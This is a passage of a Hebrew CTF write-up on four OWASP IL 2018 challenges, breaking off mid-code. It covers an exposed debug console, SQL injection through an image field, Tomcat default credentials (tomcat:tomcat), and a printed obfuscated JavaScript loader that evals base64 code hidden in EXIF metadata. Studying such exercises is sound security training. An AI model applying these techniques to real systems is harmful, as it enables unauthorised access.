<h1 align=center dir=RTL style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Times New Roman",serif'>פתרון - </span><span
lang=en-IL dir=LTR>OWASP IL 2018 AppSec CTF</span></h1>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=HE style='font-family:"Arial",sans-serif'>מאת
</span><span lang=EN-US dir=LTR>Dvd848</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>הקדמה</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>בתחילת ספטמבר 2018
התקיים </span><span lang=EN-US dir=LTR>CTF</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> של </span><span
lang=EN-US dir=LTR>OWASP IL</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>. הוא היה פתוח למשך
קצת יותר מיממה וכלל 15 אתגרים ברמות קושי שונות.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 1 </span><span
lang=HE style='font-family:"Arial",sans-serif'>–</span><span lang=HE
style='font-family:"Times New Roman",serif'> </span><span lang=EN-US dir=LTR>devDucks</span><span
dir=RTL></span><span lang=HE style='font-family:"Times New Roman",serif'><span
dir=RTL></span> (רמת קושי קלה, 200 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=EN-US dir=LTR></span></p>
<p align=center style='text-align:center'><span lang=en-IL>URL: <span
class=MsoHyperlink><b><a href="http://challenges.owaspil.ctf.today:8089/">http://challenges.owaspil.ctf.today:8089/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לחיצה על הקישור
מובילה לדף שמציג שגיאת זמן ריצה של פייתון:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אפשר לעבור על ה-</span><span
lang=EN-US dir=LTR>Traceback</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> ולראות את ה-</span><span
lang=EN-US dir=LTR>state</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> של כל פונקציה בזמן
השגיאה.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>למשל, אם מחפשים קוד
שנכלל באפליקציה עצמה (בניגוד לקוד של ספריות עזר), מגיעים לקטע הבא:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אפשר לראות פה מספר
שורות קוד מתוך האפליקציה, אך לא משהו מועיל במיוחד. מה שנראה הרבה יותר מועיל הוא
הסמל של ה-</span><span lang=EN-US dir=LTR>Console</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> שמופיע
מימין.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לחיצה עליו ויש לנו </span><span
lang=EN-US dir=LTR>Console</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> אינטראקטיבי!</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:rtl;
unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מפה הדרך אל הדגל
קצרה:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:rtl;
unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדגל: </span><b><span
lang=EN-US dir=LTR>OWASP-IL{D3bug_p1ns_ar3_important}</span></b></p>
<b><span lang=EN-US style='font-size:13.0pt;line-height:107%;font-family:"Calibri Light",sans-serif;
color:#2F5496'><br clear=all style='page-break-before:always'>
</span></b>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 2 - </span><span
lang=EN-US dir=LTR>OWASP University</span><span dir=RTL></span><span lang=HE
style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת קושי
קלה, 250 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>We got anonymous tip about a terrorist in OWASP University,<br>
We're afraid she will try to attack in few days.<br>
Please help us catch her!<br>
We have her old student card and we know you will have the information you need
there, the problem is that she somehow changed her security code...<br>
<strong>Image size must be: 1597 x 1033</strong></span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8099/">http://challenges.owaspil.ctf.today:8099/</a></b></span></span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כניסה לאתר מובילה אל
הדף הבא:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לחיצה על </span><span
lang=EN-US dir=LTR>Enter</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> מקפיצה חלון של
העלאת קובץ. אם מנסים להעלות את כרטיס הסטודנט, מקבלים את ההודעה הבאה:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתגר טען ש&quot;כל
המידע שאנחנו צריכים נמצא בכרטיס&quot;, לכן הדבר הראשון שעשיתי היה לנסות לנתח את
התמונה כדי למצוא מידע נסתר.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ראשית השתמשתי ב-</span><span
lang=EN-US dir=LTR>exiftool</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> כדי לסרוק את ה-</span><span
lang=EN-US dir=LTR>metadata</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> של התמונה. במקרים
רבים אפשר למצוא שם רמזים חשובים. הפעם, הדבר היחיד שבלט לעין היה ה-</span><span
lang=EN-US dir=LTR>Thumbnail</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פורמט </span><span
lang=EN-US dir=LTR>JPEG</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> כולל אפשרות לכלול </span><span
lang=EN-US dir=LTR>Thumbnail</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> (גרסה זעירה של
התמונה עצמה) בתוך ה-</span><span lang=EN-US dir=LTR>header</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> של התמונה
הגדולה, מה שאמור לסייע בניהול מספר רב של תמונות (למשל, תוכנה להצגת תמונות יכולה
להציג את ה-</span><span lang=EN-US dir=LTR>thumbnail</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> כאשר צופים
בכל התמונות יחדיו, במקום לבצע פעולה יקרה של הקטנת כל תמונה ותמונה לגודל הרצוי
עבור תצוגה זו). בתיאוריה, התמונה הקטנה לא חייבת להיות דומה לתמונה הגדולה, מדובר
במידע בינארי עצמאי שכמובן אפשר לקבוע שרירותית בעזרת הכלים המתאימים. כלומר, אם
התוקפת שינתה את התמונה הגדולה אבל שכחה לשנות את ה-</span><span lang=EN-US
dir=LTR>thumbnail</span><span dir=RTL></span><span lang=HE style='font-family:
"Arial",sans-serif'><span dir=RTL></span>, אולי ניתן יהיה לזהות את הקוד המקורי
שלה לפני השינוי.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>בפועל, הכיוון הזה
לא הצליח כי הגרסה המוקטנת הייתה דומה לגרסה המקורית.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>משם, עברתי לחפש קבצים
נסתרים בתוך התמונה (ניתן למשל לכלול קובץ ארכיון מיד אחרי המידע הבינארי של
התמונה עצמה), אך גם שם לא מצאתי משהו מיוחד:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>זה השלב שבו נזכרתי
באגדה על מישהו שביצע </span><span class=MsoHyperlink><span lang=EN-US><a
href="https://hackaday.com/2014/04/04/sql-injection-fools-speed-traps-and-clears-your-record/"><span
dir=LTR>SQL Injection</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> כנגד מצלמת מהירות</span></a></span></span><span
lang=HE style='font-family:"Arial",sans-serif'>:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'> בניסיון הראשון
ניסיתי לערוך את שדה ה-</span><span lang=EN-US dir=LTR>Security code</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>, אך זה לא עבד. השלב ההגיוני הבא היה לערוך את שם המשתמש:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>התוצאה:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>רפרנס ל</span><span
class=MsoHyperlink><span lang=EN-US><a href="https://xkcd.com/327/"><span
lang=HE style='font-family:"Arial",sans-serif'>קומיקס המיתולוגי של </span><span
dir=LTR>xkcd</span></a></span></span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<span lang=HE dir=RTL style='font-size:11.0pt;line-height:107%;font-family:
"Arial",sans-serif'><br clear=all style='page-break-before:always'>
</span>
<p class=MsoNormal><span lang=HE dir=RTL style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 3 - </span><span
lang=EN-US dir=LTR>No pain no gain</span><span dir=RTL></span><span lang=HE
style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת קושי
קלה, 250 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span class=MsoHyperlink><span lang=en-IL><a
href="https://www.youtube.com/watch?v=1Wh8RzcQZr4">https://www.youtube.com/watch?v=1Wh8RzcQZr4</a></span></span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8092/">http://challenges.owaspil.ctf.today:8092/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ההוראות מפנות
לסרטון שנקרא &quot;</span><span lang=en-IL dir=LTR>Hilarious Cat Fails</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>&quot;.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתר עצמו הוא אתר
תדמיתי לחברת שקר כלשהי, כאשר הקלט היחיד הבולט לעין הוא מקום להכניס כתובת
אימייל:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אולם, הכיוון הזה לא
מוביל לשום מקום.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הצעד הבא היה לנסות
לסייר קצת באתר, למשל – לנסות להיכנס לכתובת שלא קיימת:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ה-</span><span
lang=EN-US dir=LTR>Apache Tomcat</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> הזכיר לי את ה-</span><span
dir=LTR></span><span lang=en-IL dir=LTR><span dir=LTR></span> Cat Fails</span><span
lang=HE style='font-family:"Arial",sans-serif'>מהסרטון. איסוף מידע בגוגל אודות </span><span
lang=EN-US dir=LTR>Tomcat</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> גילה שקיים ממשק
ניהול בכתובת </span><span dir=LTR></span><span lang=EN-US dir=LTR><span
dir=LTR></span>/manager</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> (במקרה שלנו: </span><span
class=MsoHyperlink><span lang=EN-US><a
href="http://challenges.owaspil.ctf.today:8092/manager/"><span dir=LTR>http://challenges.owaspil.ctf.today:8092/manager</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>/</span></a></span></span><span lang=HE style='font-family:"Arial",sans-serif'>)
וכאשר ניסיתי להיכנס אליו, קיבלתי את המסך הבא:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>עוד קפיצה לגוגל
מגלה שברירת המחדל היא </span><span lang=EN-US dir=LTR>tomcat:tomcat</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>, ואנחנו בתוך ממשק הניהול:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>שימו לב לקישור הבא:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לחיצה על הקישור
מובילה אל הדגל:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=en-IL dir=LTR>OWASP-IL{D0ntF0rg3tT0Ch4ng3D3f4ulTP455w0rds!}</span></b></p>
<b><span lang=en-IL style='font-size:11.0pt;line-height:107%;font-family:"Calibri",sans-serif'><br
clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=en-IL>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 4 - </span><span
lang=EN-US dir=LTR>Curriculum Vitea</span><span dir=RTL></span><span lang=HE
style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת קושי
קלה, 250 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>I got client-side attack while i go to my CV landing page!</span></p>
<p><span lang=en-IL>Can you catch the flag?</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8091/">http://challenges.owaspil.ctf.today:8091/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לחיצה על הקישור
מובילה לאתר תדמיתי:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>בדיקה של קוד המקור
של האתר מגלה את הקוד החשוד הבא:</span></p>

```html
    <script src="./exif-js/exif.js"></script>
 
    <script>
        eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('7(0(){9},c);"e 4";5.6=1;0 1(){8 a=b.3("d");2.f(a,0(){g(h(2.i(j,"k").l("").m().n("")))})}',24,24,'function|getExif|EXIF|getElementById|strict|window|onload|setInterval|var|debugger||document|100|profileImage|use|getData|eval|atob|getTag|this|Model|split|reverse|join'.split('|'),0,{}))
    </script>
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>את הקוד אפשר לפענח
בעזרת ה-</span><span class=MsoHyperlink><span lang=EN-US><a
href="http://matthewfl.com/unPacker.html"><span dir=LTR>Unpacker</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> הזה</span></a></span></span><span lang=HE style='font-family:
"Arial",sans-serif'>, למשל:</span></p>

```javascript
setInterval(function(){debugger},100);
"use strict";
window.onload=getExif;
function getExif(){
     var a=document.getElementById("profileImage");
     EXIF.getData(a,function(){ eval(atob(EXIF.getTag(this,"Model")
.split("").reverse().join("")))})
}
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כלומר, הפונקציה
מריצה קוד שמופיע ב-</span><span lang=EN-US dir=LTR>metadata</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> של תמונת הפרופיל של בעל האתר.</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>נראה שמדובר ב-</span><span
lang=EN-US dir=LTR>base64</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> (הפוך), לאחר היפוך
התהליך מקבלים:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>(באותה מידה אפשר
לבצע את התהליך באמצעות ה-</span><span lang=EN-US dir=LTR>Web Developer Console</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> של הדפדפן, או פשוט סקריפט בדף </span><span lang=EN-US dir=LTR>HTML</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>).</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>שוב נשתמש ב-</span><span
lang=EN-US dir=LTR>Unpacker</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> ונקבל:</span></p>

```javascript
function verify(a)
{
